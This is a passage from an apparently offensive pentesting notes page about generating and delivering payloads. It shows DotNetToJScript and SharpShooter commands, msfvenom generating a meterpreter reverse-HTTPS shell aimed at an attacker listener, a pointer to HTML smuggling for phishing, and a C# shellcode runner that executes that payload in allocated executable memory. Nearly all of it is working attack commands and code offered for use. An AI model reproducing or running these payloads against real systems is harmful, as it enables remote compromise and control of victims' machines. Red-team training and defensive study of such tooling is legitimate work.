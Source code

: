 Compile to Jscript with *DotNetToJScript.exe*:

```
Cmd > .\DotNetToJScript.exe .\ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```


#### SharpShooter

* [https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/)
* [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.88 LPORT=443 -f raw -o met.bin
$ python SharpShooter.py --dotnetver 4 --stageless --rawscfile met.bin --payload js --output evil
```

This tool can efficiently be used with [HTML Smuggling](/pentest/se/phishing/html-smuggling.md) technique.



### C# DLL with PowerShell Cradle

{% code title="ShellcodeRunner.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodeRunner
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void Run()
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[775] { 0xfc,0x48,...,0xff };
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
{% endcode %}
